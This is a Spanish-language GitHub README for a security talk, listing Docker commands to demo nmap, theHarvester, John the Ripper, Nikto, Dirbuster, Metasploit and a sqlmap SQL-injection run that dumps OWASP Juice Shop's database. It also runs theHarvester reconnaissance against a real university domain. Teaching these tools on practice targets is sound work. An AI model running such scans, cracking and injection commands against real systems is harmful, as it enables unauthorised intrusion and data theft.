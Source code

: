 # Killer Whale


 - [Killer Whale](#killer-whale)
   - [Demo](#demo)
     - [NMAP](#NMAP)
     - [The Harvester](#the-harvester)
     - [John the Ripper](#john-the-ripper)
     - [Nikto](#nikto)
     - [Metasploit](#metasploit)
     - [Dirbuster](#dirbuster)
     - [Sqlmap](#sqlmap)


## Killer Whale

Este repo contiene información sobre la charla.

La presentación está disponible en: [Google Drive](http://bit.ly/2mviJZe)

## Demo

### NMAP

```console
docker pull instrumentisto/nmap

docker run --rm -it instrumentisto/nmap -A -T4 scanme.nmap.org --open
```

### The Harvester

```console
docker pull andersballegaard/theharvester

docker run -it andersballegaard/theharvester -b google -d uniminuto.edu
```

### John the Ripper

```console
docker pull adamoss/john-the-ripper

docker run --rm -it -v `pwd`/example_files/chall7.txt:/crackme.txt adamoss/john-the-ripper /crackme.txt
```

### Nikto

```console
docker pull frapsoft/nikto

docker run frapsoft/nikto -host https://juice-shop.herokuapp.com/
```

### Metasploit

```console
docker pull metasploitframework/metasploit-framework

docker run --rm -it metasploitframework/metasploit-framework ./msfconsole
```

### Dirbuster

```console
docker pull hypnza/dirbuster

docker run --rm hypnza/dirbuster -u https://juice-shop.herokuapp.com/
```

### Sqlmap

```console
docker pull paoloo/sqlmap

docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap -u 'https://juice-shop.herokuapp.com/rest/products/search?q=test' -p 'q' --dbms="sqlite" --technique U --prefix "')) " --level 5 --risk 3 --dump-all --no-cast --no-escape --flush
```

### Kali Linux

```console
docker pull kalilinux/kali-linux-docker

docker run -t -i kalilinux/kali-linux-docker /bin/bash

```




